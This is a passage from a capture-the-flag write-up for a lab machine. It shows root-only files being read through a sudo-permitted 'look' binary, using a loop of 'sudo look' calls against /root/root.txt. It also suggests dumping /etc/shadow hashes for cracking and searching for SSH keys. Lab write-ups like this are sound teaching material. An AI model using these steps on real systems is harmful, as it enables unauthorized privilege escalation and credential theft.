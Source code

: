 Read the flag from `/home/think/user.txt` as a proof of privilege escalation.

## 3.1. Privilege escalation to root user

First thing we can try now, because we have a user password is `“sudo -l”` command, to see what commands we can run as a privileged user:

```shell
sudo -l
```

![](Images/look_command.png)

We have `“/usr/bin/look”` command... Let's examine it...

```shell
think@lookup:~$ /usr/bin/look
usage: look [-bdf] [-t char] string [file ...]
```

OK, it searches for characters or string in a file...Something similar to `grep` command... Great. Let's try it on our user flag, because we know the content:

![](Images/proof_look_user.png)

***It works!*** Now, try it on a root flag, which is most probably in `/root/root.txt` file... We can see the flag format is random letters and numbers, so we can check if any number exist in `/root/root.txt` file. We will make a for loop:

```shell
for i in {1..9}; do sudo look $i /root/root.txt; done
```

***YES!!! We have the root flag!!!***

![](Images/proof_look_root.png)

## 3.2. Beyond the root

We answered all the questions in the room, but we can go even further... :)

We can now extract password hash from `/etc/shadow` file (and try to crack it with John or HashCat), search for ssh private keys (or any other file we want in the system), get to the root account, but I will leave it to you... :)
